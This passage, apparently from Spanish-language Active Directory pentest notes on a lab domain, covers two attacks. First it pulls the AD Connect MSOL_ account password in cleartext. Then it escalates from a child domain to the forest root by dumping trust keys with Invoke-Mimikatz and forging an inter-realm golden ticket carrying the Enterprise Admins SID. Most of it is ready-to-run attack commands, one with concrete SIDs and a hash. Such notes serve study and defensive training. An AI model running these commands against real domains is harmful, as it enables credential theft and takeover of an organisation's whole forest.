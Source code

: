 - Tener en cuenta que ADCCONECT ejecuta powershell.exe en el fondo de forma que se iniciarían transcripciones o bloques de guion en el registro. Si desea evitar la ejecución de powershell, tienes que modificar la conexión ``ADCConnect.ps1``
- Con privilegios administrativos, si ejecutamos adconnect.ps1, podemos extraer las credenciales de la cuenta ``MSOL_<RANDOM_ID>`` utilizada por AD Connect en texto claro.

```
### Obtención de contraseña en texto claro
.\adconnect.ps1

### Ejecución de comando como MSOL_<RANDOM_ID>
runas /user:techcorp.local\MSOL_<RANDOM_ID> /netonly cmd
```
# Cross Domain Attacks (Child Domain to Forest Root)

## sIDHistory

sIDHistory es un atributo de usuario diseñado para escenarios donde un usuario es movido de un dominio a otro. Cuando se cambia el dominio de un usuario, éste obtiene un nuevo SID y el antiguo SID se añade a sIDHistory.

- Enterprise Admins group tiene acceso a todos los dominios de un bosque.
- Enterprise Admins group sólo existe en la raíz del bosque.

Se puede abusar de sIDHistory de dos maneras para escalar privilegios dentro de un bosque:
- hash krbtgt del hijo
- Tickets de confianza
### sIDHistory - Trust Key

- Se necesita estar en el controlador de dominio para invocar ``lsadump::lsa /patch``
- Cada 30 dias se rotan las claves de confianza
- Se tiene que usar la ultima clave de confianza establecida  ``[In]``
- Lo que se necesita para falsificar Trust Key es la clave de confianza. 

```
### Obtención de Trust Key de forma remota
Invoke-Mimikatz -Command '"lsadump::trust /patch"' -ComputerName us-dc

### Obtención de Trust Key mediante DCSync
Invoke-Mimikatz -Command '"lsadump::dcsync /user:us\techcorp$"'

### Obtención de Trust Key en DC
Invoke-Mimikatz -Command '"lsadump::lsa /patch"'
```

- Con las claves de confianza obtenidas se puede generar un ``inter-realM TGT ``
- La opción ``/sids`` de mimikatz está configurando forzosamente el sIDHistory para el grupo Enterprise Admin para ``us.techcorp.local`` que es el grupo de administración de empresas forestales.
- Enterprise Admins (RID 519)

```
### Generar un inter-realm TGT

Invoke-Mimikatz -Command '"kerberos::golden /domain:<DOMAIN_CHILD> /sid:<SID_DOMAIN_CHILD> /sids:<SID_DOMAIN_PARENT>-<RID> /rc4:<TRUST_HASH> /user:Administrator /service:krbtgt /target:<DOMAIN_PARENT> /ticket:C:\PATH\TO\SAVE\output.kirbi"'

Invoke-Mimikatz -Command '"kerberos::golden /domain:<DOMAIN_CHILD> /sid:<SID_DOMAIN_CHILD> /sids:<SID_DOMAIN_PARENT>-<RID> /rc4:<TRUST_HASH> /user:Administrator /service:krbtgt /target:<DOMAIN_PARENT> /ptt"'

Invoke-Mimikatz -Command '"kerberos::golden /domain:us.techcorp.local /sid:S-1-5-21-210670787-2521448726-163245708 /sids:S-1-5-21-2781415573-3701854478-2406986946-519 /rc4:b59ef5860ce0aa12429f4f61c8e51979 /user:Administrator /service:krbtgt /target:techcorp.local /ticket:C:\AD\Tools\trust_tkt.kirbi"'
```